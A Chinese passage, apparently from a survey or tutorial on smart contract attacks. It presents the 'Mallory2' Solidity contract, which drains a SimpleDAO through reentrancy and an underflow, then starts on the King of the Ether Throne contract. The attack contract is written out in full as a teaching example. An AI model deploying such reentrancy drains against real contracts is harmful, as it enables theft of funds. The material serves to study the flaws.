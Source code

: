 攻击 2：

```solidity
contract Mallory2 {
  SimpleDAO public dao = SimpleDAO(0x42..);
  address owner;
  bool performAttack = true;
  
  function Mallory2() {
    owner = msg.sender;
  }
  
  function attack() {
    dao.donate.value(1)(this);
    dao.withdraw(1);
  }
  
  function() {
    if (performAttack) {
      performAttack = false;
      dao.withdraw(1);
    }
  }
  
  function getJackpot() {
    dao.withdraw(dao.balance);
    owner.send(this.balance);
  }
}
```

攻击者发布如上的恶意合约，并在其中放一部分的 _ether_ 。然后，攻击者调用 `attack()`，将合约中的 _ether_ 捐赠到 DAO，并随后撤销捐赠。DAO 的撤销函数验证了恶意合约有捐赠余额，因此会向恶意合约转账。与上一个攻击类似，转账的过程触发了恶意合约的 fallback，在其中又一次调用了撤销捐赠 - 那么 DAO 又一次向恶意合约转账，并再次触发 fallback。此次，不会进入 `if` 体内了，嵌套的函数调用开始关闭，从而使 DAO 中恶意合约的记账被连续执行两次，从而引发 underflow，变成了 `2^256 - 1`。此时，攻击者只需要再调用 `getJackpot()` 就可以把 DAO 中的 _ether_ 全部拿光。

这两个攻击可行都是因为 DAO 是在汇款后才更新记账的。攻击者利用了可重入威胁实行了攻击。

### 4.2 King of the Ether Throne

该合约是一个游戏。如果一个参与者想成为国王，就需要向现在的国王付一定的 _ether_ ，加上给合约付一定的手续费。

```solidity
contract KotET {
  address public king;
  uint public clainPrice = 100;
  address owner;
  
  function kotET() {
    owner = msg.sender;
    king = msg.sender;
  }
  
  function sweepCommission(uint n) {
    owner.send(n);
  }
  
  function() {
    if (msg.value < clainPrice) throw;
    
    uint compensation = calculateCompensation();
    king.send(compensation);
    king = msg.sender;
    clainPrice = calculateNewPrice();
  }
}
```